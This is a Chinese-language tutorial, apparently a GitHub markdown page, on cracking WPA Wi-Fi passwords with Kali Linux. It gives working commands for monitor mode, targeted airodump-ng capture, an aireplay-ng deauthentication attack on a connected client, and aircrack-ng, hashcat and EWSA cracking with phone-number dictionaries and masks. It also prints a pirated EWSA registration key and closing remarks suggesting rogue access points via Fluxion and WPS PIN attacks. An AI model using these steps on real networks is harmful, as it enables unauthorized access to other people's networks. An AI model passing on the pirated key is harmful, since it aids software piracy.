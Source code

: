 # 拿wifi密码

## 前置条件

1. 一个kali支持的无线网卡，芯片3070/8187/5370都可以。
2. 一个字典，用来跑密码







---

[教程链接](https://tieba.baidu.com/p/7981575504)

这里我使用的是RT3070L芯片的网卡

在虚拟机中启用这个USB设备
![](resources/2023-07-02-19-37-23.png)

终端输入
```
ifconfig
```

![](resources/2023-07-02-19-42-28.png)

发现比之前多了一个 wlan0 网卡

### 

如果你输入ifconfig没有看到 wlan0 网卡
则输入
```
iwconfig
```

![](resources/2023-07-02-19-49-53.png)

如果输入iwconfig能看见 wlan0 网卡，但是输入ifconfig却无法看到，那就是你还没有启用无线网卡

输入【ifconfig -a】.如果看到有wlan0网卡就输入【ifconfig wlan1 up 】然后在输入ifconfig查看网卡是否成功启用。

如果还是不行，尝试重启


如何查看自己的网卡是什么芯片可以使用【lsusb】或者【dmesg -T】

![](resources/2023-07-02-19-58-03.png)

###

使用【airmon-ng start wlan0】开启监听，下面提示找到两个麻烦使用airmon-ng check kill

使用【airmon-ng check kill】之后会整个系统断网，所有不要惊慌。

![](resources/2023-07-02-20-01-12.png)

接下来输入ifconfig查看是否成功开启监听模式。看是否有wlan0mon

![](resources/2023-07-02-20-01-57.png)




###

在root目录下创建wifi_crack文件夹
![](resources/2023-07-02-20-30-20.png)

执行【airodump-ng wlan0mon】

![](resources/2023-07-02-22-20-44.png)

抓不到数据

是否是amd处理器的问题
换inter处理器的电脑试一试
换用inter设备也是同样问题

后经多次实验，得到可以在我amd笔记本电脑的kali虚拟机中抓到数据的步骤

### 正确步骤

启动虚拟机之后，在usb2.0接口插上RT3070L无线网卡
网卡我用风扇散热，过热的话抓不到数据
```airmon-ng check kill```
这时用命令```ifconfig -a```应该能看到wlan0网卡
如果用命令```ifconfig```能看到wlan0网卡，说明这个网卡被启用
用命令```ifconfig wlan0 down```禁用这个网卡
这时用命令```ifconfig```应该看不到wlan0网卡
这时用命令```iwconfig```看到wlan0网卡的模式为Managed
用命令```iwconfig wlan0 mode monitor```将wlan0网卡的模式改为Monitor
![](resources/2023-07-04-13-12-21.png)
用命令```ifconfig wlan0 up```启用这个网卡
如果用命令```ifconfig```能看到wlan0网卡，说明这个网卡被启用
```
airmon-ng start wlan0
```

```
airodump-ng wlan0
```

能抓到数据时的网卡状态
![](resources/2023-07-04-14-45-11.png)

### 

![](resources/2023-07-03-17-26-08.png)

我已经看到我需要的wifi了，下面使用
```shell
airodump-ng wlan0 -c 1 --bssid 94:0C:6D:46:51:52 -w ./
```

![](resources/2023-07-03-17-29-06.png)

到现在为止，我只有一个终端窗口。
请勿多开终端窗口，之前我就遇到有一个吧友多开窗口导致一只抓不到信息。



通过抓去这个指定bssid我已经看到有一个用户连接，STATION可以看到。接下来进行握手包抓取了。


对其中的一个连接进行攻击，使其对AP断开连接。
注意!!此时我上面一个终端窗口并没有停止抓包，而是一只运行着，我下面是新开的一个终端，现在一共打开两个终端窗口。

```shell
aireplay-ng -0 10 -a 94:0C:6D:46:51:52 -c 8A:07:74:A1:D2:D9 wlan0
```


![](resources/2023-07-03-17-30-09.png)

右上角提示拿到了握手包

![](resources/2023-07-03-17-30-57.png)


现在需要字典

[利用kali生成字典的三种方式](https://blog.csdn.net/qq_44204058/article/details/115562895)



###

使用aircrack-ng 对刚才抓取到的握手包进行密码破解

```shell
aircrack-ng -w ./pass_test.txt ./-18.cap
```

-w 指定一个字典文件，我这字典是有Wifi密码的，所以肯定能破解成功。

这里为了测试，我把正确的密码加到了字典文件中

![](resources/2023-07-03-18-29-38.png)

破解成功


###

上面跑字典仅为测试，下面用中国大陆手机号字典

[生成全部中国大陆手机号字典](https://blog.zhouqian.wang/index.php/2023/03/13/crunch-hashcat-%e7%a4%be%e5%b7%a5%e5%af%86%e7%a0%81%e7%bb%84%e5%90%8811%e4%bd%8d%e6%89%8b%e6%9c%ba%e5%8f%b7-%e5%a7%93%e5%90%8d%e7%94%9f%e6%97%a5%e7%bc%a9%e5%86%99%ef%bc%8c%e9%81%bf%e5%85%8d/)

用两本字典来组合

![](resources/2023-07-03-18-58-01.png)

```shell
crunch 9 9 -t %%%%%%%%% -o mobilephone_tail.txt 
```

![](resources/2023-07-03-19-08-33.png)

![](resources/2023-07-03-19-20-20.png)




#### 使用Hashcat破解WPA/PSK密码

握手包格式转换（cap to hc22000）
现在很多关于hashcat的博客关于转换的描述都说是cap转换为hccap格式，但是这种格式其实已经不适用于现在的hashcat版本了，在hashcat6.0版本之后，-m 2500 和 -m 16800 已经被更改为 -m 22000 了

首先要把airodump抓取的cap文件转化为hc22000格式

[在线转换网站](https://hashcat.net/cap2hashcat/)

使用hashcat组合破解模式

```shell
hashcat -a 1 -m 22000 ./1880_1688381391.hc22000 -o wifi_passwd_result.txt mobilephone_head.txt  mobilephone_tail.txt
```

![](resources/2023-07-03-19-27-32.png)

这个就是运行中的结果，在运行过程中可以向终端输入命令s 来查看实时破解状态。

这里在kali虚拟机中的破解速度很慢，那就用windows宿主机破解

### EWSA跑包

在windows系统中安装EWSA

[EWSA软件下载网址](https://www.jb51.net/softs/359426.html)

下载后解压并安装

可用的注册码
```
EWSA-173-HC1UW-L3EGT-FFJ3O-SOQB3
```

导入cap格式的文件
![](resources/2023-07-04-02-18-15.png)

![](resources/2023-07-04-02-18-39.png)

使用掩码破解

我们点一下“添加”按钮，输入356789，确定。

然后修改一下掩码，在8个?d前面加上1?1?d，点击应用、确定。这里第一个1没别的意思，就是1的意思，我们的手机号都是1开头的，?1里面的1是我们刚刚添加的一个定义，默认分到的序号是1，我们手机号的第二位都是256789，没有其他数字，?d是为了凑齐十一位数。
点击开始破解，掩码攻击，就开始破解以手机号为密码的WiFi密码了。

![](resources/2023-07-04-02-22-14.png)



![](resources/2023-07-04-02-21-42.png)

开始掩码攻击

![](resources/2023-07-04-02-25-23.png)

发现核显的电脑比独显的电脑慢很多，换用独显电脑

![](resources/2023-07-04-02-52-27.png)

破解成功



---




首先要有RT3070或螃蟹卡8187，网上都有卖，最多30搞定。

虚拟机安装kali，里面有各种破解软件，相关教程也可以到网上找到，比如Aircrack-ng，使用单独网卡可以搞定；如果是使用Fluxion 等社会工程方式破解，则需要两种不同的网卡，即RT3070和螃蟹卡8187各买一张。

网卡找字典，做好长跑还未必跑的出来的准备。一般来说，字典越大，破解的几率越大，但耗时也越长。速度比较快的破解方式是hash码表，8位密码秒破，但现在的密码很少有8位的，并且生成hash码表比较耗时，更让人**的是一个essid只对应一个hash码表，也就是每个wifi信号都需要重新生成一次……。如果你运气比较好，对方有开放pin那最好了，最多半小时搞定。



---


这个得看你的笔记本网卡是否支持监听。一般支持的概率比较低。不过可以先试试。用airmon-ng先设置监听，试试。

vmware是不能使用实体机的内置网卡，只能使用USB接口的网卡。


---


就是做伪AP。很经典的欺骗方式。
luxion可以做到